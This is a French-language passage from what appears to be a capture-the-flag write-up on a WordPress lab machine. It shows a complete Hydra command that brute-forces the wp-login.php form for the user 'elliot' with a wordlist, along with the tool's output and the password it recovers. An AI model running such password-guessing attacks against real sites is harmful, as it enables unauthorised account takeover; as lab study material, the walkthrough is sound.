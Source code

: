 <img src="./screenshots/3.png" width="80%">

Lien utile : [Hydra HTTP post form module](https://labex.io/tutorials/hydra-explore-hydra-module-specific-options-550767)

Super ! Un utilisateur elliot semble exister et nous pouvons également noter que la casse n'est pas importante.

Maintenant que nous avons un nom d'utilisateur disponible sur le site WordPress, peut-être que nous pouvons bruteforcer son mot de passe aussi, non ? Essayons de le faire !

```bash
hydra -l elliot -P fsocity_uniq.dic target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=The password you entered" -t 64 -I
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (<https://github.com/vanhauser-thc/thc-hydra>) starting at 2025-08-03 12:11:43
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 11452 login tries (l:1/p:11452), ~179 tries per task
[DATA] attacking http-post-form://target:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=The password you entered
[STATUS] 4796.00 tries/min, 4796 tries in 00:01h, 6656 to do in 00:02h, 64 active
[80][http-post-form] host: target   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (<https://github.com/vanhauser-thc/thc-hydra>) finished at 2025-08-03 12:12:55

```
